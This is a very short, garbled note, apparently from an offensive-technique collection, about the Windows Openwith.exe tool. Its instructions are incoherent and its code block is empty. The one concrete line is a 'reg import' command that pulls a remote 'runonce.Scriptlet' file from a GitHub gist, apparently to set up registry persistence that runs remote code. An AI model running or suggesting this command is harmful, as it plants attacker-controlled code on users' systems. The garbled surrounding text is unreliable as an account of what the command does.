 ### Openwith  Microsoft/Tools 
Openwith.exe is a tool for operating the program according to content policies let's go for example
If you want open anything you can put it at Openwith.exe let's go to initiative the experience

```
 
```

## Currently, You have to go there and put the instructions
C:\> reg import 
https://gist.githubusercontent.com/homjxi0e/66555fedc78af49635b2e5dfea9dd1ae/raw/60b80e88c66fe58d2d906bb24f32925edd2fe025/runonce.Scriptlet

 
